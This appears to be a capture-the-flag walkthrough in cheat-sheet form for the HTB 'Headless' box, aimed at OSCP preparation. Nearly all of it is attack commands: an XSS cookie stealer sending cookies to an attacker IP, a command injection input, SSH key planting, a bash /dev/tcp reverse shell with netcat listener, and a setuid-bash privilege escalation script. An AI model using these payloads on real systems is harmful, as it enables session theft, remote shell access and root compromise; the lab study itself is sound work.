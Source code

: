 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.8
nmap -p 22,5000 -sCV 10.10.11.8
```

## 📂 [Directory Brute Force](HTTP)

```bash
feroxbuster -u http://10.10.11.8:5000
```

## 🔎 Filter Testing / Single Character Fuzzing

```bash
ffuf -u http://10.10.11.8:5000/support \
-d 'fname=0xdf&lname=0xdf&email=0xdf@headless.htb&phone=9999999999&message=FUZZ' \
-w /opt/SecLists/Fuzzing/alphanum-case-extra.txt \
-H 'Content-Type: application/x-www-form-urlencoded' \
-mr 'Your IP address has been flagged'
```

## 🧪 XSS Payload (Cookie Stealer)

```html
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```

## 🌐 Host Web Server to Catch Cookie

```bash
python -m http.server 80
```

## 🍪 Manually Set Cookie (in Firefox Dev Tools)

```text
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 💥 Command Injection Test (Burp Repeater)

```text
date=2023-09-15; id
```

## 🔐 Generate [SSH](SSH) Key

```bash
ssh-keygen -t ed25519 -f key
```

## 📥 Upload Public Key (in initdb.sh or through command injection)

```bash
echo "public_key_content" > ~/.ssh/authorized_keys
```

## 🔑 SSH into Box

```bash
ssh -i key dvir@10.10.11.8
```

## 📤 Reverse Shell Payload (Base Bash Reverse Shell)

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

(Encode `&` as `%26` for POST requests)

## 📞 Listen for Shell

```bash
nc -lnvp 443
```

## 🐚 Upgrade TTY Shell

```bash
script /dev/null -c bash
# Then:
[CTRL+Z]
stty raw -echo; fg
reset
# Type: screen
```

## 🔎 Check Sudo Permissions

```bash
sudo -l
```

## 📜 Priv-Esc Exploit: Create Malicious `initdb.sh`

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' > initdb.sh
chmod +x initdb.sh
```

## ⚙️ Execute `syscheck`

```bash
sudo syscheck
```

## ⬆️ Root Shell

```bash
/tmp/0xdf -p
```

## 🧼 Clean Up and Get Root Flag

```bash
rm /tmp/0xdf
cat /root/root.txt
```